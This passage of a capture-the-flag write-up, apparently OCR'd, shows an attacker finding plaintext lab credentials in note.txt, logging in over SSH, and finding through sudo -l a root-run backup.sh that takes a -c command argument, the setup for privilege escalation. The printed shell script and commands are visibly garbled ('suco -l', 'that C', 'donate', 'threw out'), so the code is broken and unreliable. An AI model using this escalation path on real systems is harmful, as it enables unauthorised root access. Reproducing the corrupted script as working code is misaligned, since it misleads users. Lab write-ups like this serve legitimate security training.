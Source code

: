 File: `music_archive/home/alex/Documents/note.txt`:

```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!
alex:S3cretP@s3
```

We already have a user with which to enter by ssh!

```
ssh-alex@10.10.75.97
alex@ubuntu:~$ ls
Desktop Documents Downloads Music Pictures Public Templates user.txt Videos
alex@ubuntu:~$ cat user.txt
flag{************}
alex@ubuntu:~$
```

If we do a `suco -l` we see the following:

```
User alex may run the following commands on ubuntu:
     (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

And if we cat that same file, we get the following script:

```bash
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
   #a="/etc/mp3backups/backed_up_files.txt"
# b=$(basename $input)
   #threw out
# echo "$line"
#done < "$input"

while getopts c: flag
do
case "${flag}" in
c) command=${OPTARG};;
that C
donate



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/ song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/ song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

threw out

```